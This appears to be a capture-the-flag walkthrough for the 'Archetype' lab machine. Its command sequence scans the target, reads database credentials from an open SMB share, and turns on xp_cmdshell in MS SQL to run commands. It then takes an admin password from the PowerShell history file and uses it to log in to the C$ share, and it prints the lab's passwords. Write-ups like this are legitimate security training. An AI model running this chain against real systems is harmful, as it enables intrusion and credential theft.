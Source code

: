 # Archetype (starting point)

## Enumerate Services

> SMB shares
> MS SQL server
> Windows 2019 OS

```console
$ nmap -v -A -T3 10.10.10.27
```

## Enumerate SMB Shares

> backups is open for everyong!

```console
$ nmap --script smb-enum-shares.nse -p445 10.10.10.27
```
## Connect to the Backup Share

> sensitive information leak: db admin credentials
> M3g4c0rp123

```console
$ smbclient -U 'guest%' //10.10.10.27/backups -p 445
```
## Gain a Foothold

> the sql server is now accessible

```console
$ mssqlclient.py -port 1433 -windows-auth ARCHETYPE/sql_svc@10.10.10.27
```

## Privilege Escalation

> reconfigure the db server to execute commands

```shell_session
> EXEC sp_configure 'Show Advanced Options', 1;
> reconfigure;
> sp_configure;
> EXEC sp_configure 'xp_cmdshell', 1
> reconfigure;
> xp_cmdshell "whoami"
```

## User Flag

> read sql_svc flag on his desktop

```shell_session
> xp_cmdshell "Get-Content C:\Users\sql_svc\Desktop\user.txt"
```

## Privilege Escalation

> the powershell logs have another leak: the admin password
> MEGACORP_4dm1n!!

```shell_session
> xp_cmdshell "Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
```

## Root Flag

> connect to SMB share as admin

```console
$ smbclient -U 'administrator' //10.10.10.27/C$ -p 445 'MEGACORP_4dm1n!!'
```

```shell_session
> get C:\Users\Administrator\Desktop\root.txt
```
